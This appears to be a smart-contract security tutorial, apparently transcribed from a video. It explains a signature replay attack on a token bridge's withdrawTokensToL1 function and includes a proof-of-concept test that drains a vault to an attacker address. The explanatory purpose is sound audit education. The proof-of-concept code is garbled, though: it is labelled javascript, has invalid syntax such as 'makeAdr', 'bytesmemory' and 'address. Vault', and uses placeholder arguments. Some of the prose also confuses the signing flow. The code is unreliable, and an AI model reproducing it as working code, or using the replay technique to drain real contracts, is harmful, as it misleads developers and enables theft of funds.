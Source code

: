 ```yaml
---
title: Signature Replay Protection
---
```




---

# Vulnerabilities Found in the V, R and S: A Deep Dive into Replay Protection

Welcome to another deep dive into smart contract vulnerabilities. We're dissecting V, R and S -- a signature often found in blockchain technology.

![](https://cdn.videotap.com/fepx5pOEwGHrxsJGEs9y-17.14.png)

During this long and fascinating journey, we'll be breaking down each step to understand the vulnerabilities at a granular level. In particular, we'll be examining whether this signature benefits from replay protection. Spoiler alert: it doesn't. Let's delve in!

## Crafting a Proof of Concept Code

Our journey starts by raising a sobering question: Can this signature be deployed more than once? To answer this, we put together a proof-of-concept code that shows how this could potentially occur, leading to vulnerabilities.

```javascript
function testSignatureReplay() public {
    uint vaultInitialBalance = 1000e18;
    uint attackerInitialBalance = 100e18;
    address attacker = makeAdr(attacker);
    deal(address tokenAddress, vault, vaultInitialBalance);
    deal(address tokenAddress, attacker, attackerInitialBalance);
    uint v, bytes32 r, bytes32 s = vm.sign(private key ...);
    bytesmemory message = abi.encode(address token, 0, encodeCall(IERC20.transferFrom(address vault, attacker, attackerInitialBalance) ));//in a loop until vault balance is zero
    tokenbridge.withdrawTokensToL1(attacker, attackerInitialBalance, V, R, S);
    assertEqual(token.balanceOf(address attacker), attackerInitialBalance + vaultInitialBalance);
    assertEqual(token.balanceOf(address. Vault), 0);
}
```

Let's break this down.

The function `testSignatureReplay()` assumes that a vault already holds some tokens. The initial balance of the vault and an attacker are given. The function then carries forth several deals. An attacker is set up who deposits tokens to a layer 2 (L2) chain.

## Signature and Transfer

```javascript
 uint v, bytes32 r, bytes32 s = vm.sign(private key ...);
```

This part of our code does a bit of magic by signing the data with a private key. Thanks to Foundry, we can utilise a cheat code `VM.sign` to sign with the operator key, and then hash the actual data.

The next step is to formulate our `message`.

```javascript
bytes memory message = abi.encode(address token, 0, encodeCall(IERC20.transferFrom(address vault, attacker, attackerInitialBalance) ));
```

Here, we're essentially encoding a message instructing a transfer from the vault to the attacker. The signed message containing the V, R, and S values are usually what prompts MetaMask to ask for confirmation.

The signed message indicates a legitimate deposit of tokens from Layer 1 (L1) to L2. The operator, seeing this as valid, then submits V,R,and S on-chain.

This is the point where the replay attack becomes feasible. As soon as the operator's signature is placed on-chain, an attacker can simply keep invoking `withdrawTokensToL1` using that very same signature, draining balance from the vault until it's completely empty.

## The Aftermath

And how do we know it works? After running this function, we have successfully drained the vault entirely whilst increasing the attacker's balance accordingly:

```javascript
assertEqual(token.balanceOf(address attacker), attackerInitialBalance + vaultInitialBalance);
assertEqual(token.balanceOf(address. Vault), 0);
```

In short, we've just carried out a successful attack!

## Wrapping up

Looking at the given scenario, it becomes evident how signatures without replay protection, such as the one in our example, can pose significant security risks. Despite its relatively small codebase, such attacks can have substantial consequences. Always remember, when coding smart contracts, always ensure that your code includes mechanisms to prevent a replay attack.

Audit data and additional findings related to the topic can be found in the corresponding Git Repo. Happy coding and be safe!

> "Security in blockchain technology involves a constant combat against potential threats and vulnerabilities."
